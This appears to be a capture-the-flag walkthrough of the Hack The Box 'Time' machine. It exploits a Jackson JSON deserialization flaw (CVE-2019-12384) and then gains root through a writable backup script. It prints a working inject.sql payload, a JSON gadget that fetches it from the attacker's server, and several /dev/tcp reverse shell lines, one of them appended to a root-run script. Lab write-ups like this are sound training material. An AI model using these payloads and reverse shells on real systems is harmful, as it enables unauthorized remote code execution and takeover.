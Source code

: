 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell [(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))].
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000 in Validate (Beta!).
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server..**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```...**

**POC payload..**
```php
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.11:8000/inject.sql'"}]
```
**Here** 

![](https://i.ibb.co/nc1pGwZ/image.png)

**Looking to http server we found GET /inject.sql is 200 and that's OK.**

![](https://i.ibb.co/dtjG5BM/image.png)

**Our listner..**

![](https://i.ibb.co/XshCJMZ/image.png)

> * We got reverse shell successfully.

> * Now i'm Pericles user.

![](https://i.ibb.co/XjnTN1D/image.png)

> **I spent a day enumerating this box and i lost alot of Time as its name, But no thing useful So i decided the next day to use LinPEAS, it's a Tool to automate the enumeration process.**


![](https://i.ibb.co/fpZ92df/image.png)


![](https://i.ibb.co/hfJzCL3/image.png)

**I found that intersting file to check ``` /usr/bin/timer_backup.sh ```**

```bash
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
> **It's create a zip archive from /var/www/html and moving it to /root/backup.zip**

> **So we have two ways to solve this situation, First add our public key to the authorized keys for root in Time Box and connect via ssh, but NO TIME so i choosed the second choice by getting reverse shell via bash shell ```echo "bash -i >& /dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1" >>/usr/bin/timer_backup.sh.**

```bash
pericles@time:/usr/bin$ echo "bash -i >& /dev/tcp/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
<p/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
```
**Till Now it's OK and you will get reverse shell to your listner, But for ONLY 5 seconds i think and that is the idea of TIME box, So you have to be very fast to cat your root flag ```cat /root/root.txt``` as always to find the root flag, So the first solution of adding our public key to the authorized keys for root is the best, Because it's will give us persistence to get access to root for TIME box.**

```bash
yahia@Y4h1a:~$ nc -nlvp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.214 45098
bash: cannot set terminal process group (228025): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat /root/root.txt
cat /root/root.txt
7a6040***********b14a463fcd5
```
# RooTed

<script src="https://www.hackthebox.eu/badge/209461"></script>




![]()
![]()

